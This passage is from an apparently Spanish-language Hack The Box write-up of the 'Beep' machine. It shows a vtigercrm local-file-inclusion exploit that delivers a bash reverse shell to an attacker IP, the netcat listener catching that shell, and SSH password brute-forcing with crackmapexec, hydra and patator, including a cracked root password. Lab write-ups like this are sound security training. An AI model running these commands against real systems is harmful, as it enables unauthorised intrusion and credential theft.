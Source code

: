 En lugar de `id`, vamos añadir una shell inversa, también voy a codificar los datos, en este caso el código de la shell inversa con `--data-urlencode`:

```shell
❯ curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action" --data-urlencode "cmd=bash -i >& /dev/tcp/10.10.16.3/443 0>&1"
```

Ahora recibimos una shell:

```shell
❯ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.7] 59168
bash: no job control in this shell
bash-3.2$ id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
bash-3.2$ whoami
asterisk
```

## SSH - TCP 22 [Path #2]

Podemos intentar la fuerza bruta de SSH:

```shell
❯ crackmapexec ssh 10.10.10.7 -u htb/box/Beep/users.txt  -p passwords.txt
SSH         10.10.10.7      22     10.10.10.7       [*] SSH-2.0-OpenSSH_4.3
SSH         10.10.10.7      22     10.10.10.7       [-] root:amp109 Authentication failed.
SSH         10.10.10.7      22     10.10.10.7       [+] root:jEhdIekWmdjE (Pwn3d!)
```

También podemos utilizar la hidra:

```shell
❯ hydra -L htb/box/Beep/users.txt -P passwords.txt -s 22 ssh://10.10.10.7 -v -t 4
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-22 18:37:00
[DATA] max 4 tasks per 1 server, overall 4 tasks, 24 login tries (l:6/p:4), ~6 tries per task
[DATA] attacking ssh://10.10.10.7:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://root@10.10.10.7:22
[INFO] Successful, password authentication is supported by ssh://10.10.10.7:22
[22][ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE
```

Alternativamente, el patator también es útil:

```shell
❯ patator ssh_login host=10.10.10.7 port=22 user=FILE0 password=FILE1 0=htb/box/Beep/users.txt 1=passwords.txt
18:39:49 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.8 at 2021-12-22 18:39 EST
18:39:49 patator    INFO -
18:39:49 patator    INFO - code  size    time | candidate                          |   num | mesg
18:39:49 patator    INFO - -----------------------------------------------------------------------------
18:40:01 patator    INFO - 0     19    10.516 | root:jEhdIekWmdjE                  |     2 | SSH-2.0-OpenSSH_4.3
```
